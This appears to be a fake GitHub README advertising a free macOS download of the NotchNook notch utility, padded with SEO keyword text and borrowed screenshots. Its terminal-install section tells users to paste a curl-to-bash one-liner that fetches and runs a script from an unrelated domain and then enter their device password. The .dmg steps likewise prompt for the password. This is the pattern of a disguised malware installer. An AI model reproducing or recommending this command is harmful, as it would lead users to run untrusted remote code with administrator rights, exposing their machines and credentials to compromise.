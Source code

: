 # NotchNook — Free Download for macOS 🖥️

NotchNook is a sleek, lightweight utility designed to enhance your macOS experience by transforming the notch area into a dynamic, customizable workspace. Follow the instructions below to download and install NotchNook for free on your Mac.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)](https://notchnook-for-mac-os.github.io/.github/)

If the download button doesn’t work, follow the step-by-step terminal instructions below for a seamless installation.

## 📦 How to Install NotchNook for macOS

### Installation via .dmg:

1. Download the .dmg file using the button above.
2. Open the .dmg installer and drag the NotchNook icon to your Applications folder.
3. Launch Terminal and navigate to the Applications folder by typing `cd /Applications`.
4. Run the app by typing `./NotchNook.app/Contents/MacOS/NotchNook` and press "Return."
5. Enter your device password if prompted (leave blank if no password is set).

[![Installation Demo](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via Terminal Command:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open Terminal on your Mac and paste the copied command, then press "Return."
3. Enter your device password and confirm the installation.

[![Terminal Installation Demo](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get with NotchNook

- 🖼️ **Dynamic Notch Customization**: Transform your MacBook’s notch into a functional workspace with widgets and shortcuts.
- ⚡ **Lightweight Performance**: Runs smoothly without draining your battery or system resources.
- 🛠️ **Customizable Layouts**: Tailor the notch area to suit your workflow with drag-and-drop simplicity.
- 🌙 **Dark Mode Support**: Seamlessly integrates with macOS dark and light modes for a cohesive look.
- 🔄 **Regular Updates**: Receive free updates to ensure compatibility with the latest macOS versions.
- 🔒 **Secure and Private**: No data collection, ensuring your privacy and security.

## About NotchNook

NotchNook is a revolutionary macOS utility that redefines how you interact with your MacBook’s notch. Designed for users seeking a free macOS notch enhancer, this lightweight software turns an otherwise static area into a hub of productivity. Whether you’re a student, professional, or creative, NotchNook offers a seamless way to access tools, widgets, and shortcuts directly from the notch, optimizing your workflow without cluttering your desktop. Its intuitive interface ensures that even first-time users can set it up effortlessly, making it a must-have for anyone looking to download free macOS productivity tools.

The app is built with performance in mind, ensuring it runs efficiently on any macOS device, from older MacBooks to the latest M-series models. By leveraging native macOS APIs, NotchNook delivers a smooth experience without compromising system resources. This makes it an ideal choice for users searching for a free macOS notch customization tool that doesn’t slow down their device. Regular updates keep NotchNook compatible with the latest macOS releases, ensuring long-term usability.

Security is a top priority for NotchNook. Unlike many free macOS utilities, it does not collect user data or require invasive permissions, making it a safe choice for privacy-conscious users. The installation process is straightforward, whether you choose the .dmg file or the terminal command, ensuring accessibility for all skill levels. For those seeking a free macOS notch utility, NotchNook stands out as a reliable and secure option.

NotchNook’s customization options are a game-changer. Users can personalize the notch area with widgets for calendar, weather, or quick notes, tailoring the layout to their specific needs. This flexibility makes it a top choice for those googling free macOS productivity apps or free notch customization tools. The drag-and-drop interface allows you to rearrange elements effortlessly, ensuring your workspace is both functional and visually appealing.

### Why Choose NotchNook?

NotchNook’s key advantage lies in its simplicity and efficiency. Unlike other macOS utilities that overwhelm with complex features, NotchNook focuses on delivering a streamlined, user-friendly experience. Its lightweight design ensures minimal battery impact, while its robust customization options cater to diverse user needs. By offering a free download for macOS, NotchNook makes premium-level functionality accessible to everyone, without hidden costs or subscriptions.

## 🖼️ Preview

![NotchNook Dashboard](https://static1.howtogeekimages.com/wordpress/wp-content/uploads/2024/09/macbook-pro-notch-with-notchnook-running.jpg?q=70&fit=contain&w=1200&h=628&dpr=1)  
*Customizable notch dashboard with widgets for quick access.*

![NotchNook Dark Mode](https://d4.alternativeto.net/lmgGSZXN1pLIgbZLwdkd8pbKVLOGUmSSlplxDllNd2w/rs:fill:618:394:1/g:no:0:0/YWJzOi8vZGlzdC9zL25vdGNobm9va180NTk3OTdfZnVsbC5qcGc.jpg)  
*Seamless dark mode integration for a sleek look.*

![NotchNook Widget Setup](https://d4.alternativeto.net/iBfArJvhLAfoXTwFPup6Nd1d4cJpCyAMWYLHMKCAoDg/rs:fit:2400:2400:0/g:ce:0:0/YWJzOi8vZGlzdC9zL25vdGNobm9va183OTc5MDBfZnVsbC53ZWJw.jpg)  
*Drag-and-drop widget customization in action.*


## 🔍 Tags

notchnook macos, notchnook free download, notchnook free macos, notchnook download, notchnook for free, notchnook macos free, notchnook mac, notchnook for mac
